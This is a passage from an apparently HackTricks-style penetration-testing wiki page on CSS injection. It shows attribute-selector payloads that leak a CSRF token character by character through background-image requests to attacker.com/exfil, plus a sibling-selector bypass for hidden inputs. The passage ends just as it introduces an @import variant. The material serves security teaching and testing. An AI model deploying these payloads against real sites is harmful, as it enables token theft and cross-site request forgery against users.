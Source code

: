 # CSS Injection

<details><summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## CSS Injection

### Attribute Selector

The main technique to exfiltrate information via CSS Injection is to try to **match a text with CSS** and in case that **text exist** **load some external resource, like:**

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

However, note that this technique won't work if, in the example, the **csrf name input** is of **type hidden** (and they usually are), because the background won't be loaded.\
However, you can **bypass** this impediment by, instead of making the hidden element load a background, **just make anything after it load the background:**

```css
input[name=csrf][value^=csrF] ~ * {
    background-image: url(https://attacker.com/exfil/csrF);
}
```

Some code example to exploit this: [https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e](https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e)

#### Prerequisites

1. The CSS injection needs to allow for sufficiently long payloads
2. Ability to **frame the page to trigger CSS re-evaluation of newly generated payloads**
3. Ability to use **externally hosted images** (could be blocked by CSP)

### @import

The previous technique has some drawbacks, check the prerequisites. You either need to be able to **send multiple links to the victim**, or you need to be able to **iframe the CSS injection vulnerable page**.

However, there is another clever technique that uses **CSS `@import`** to improve the quality of the technique.
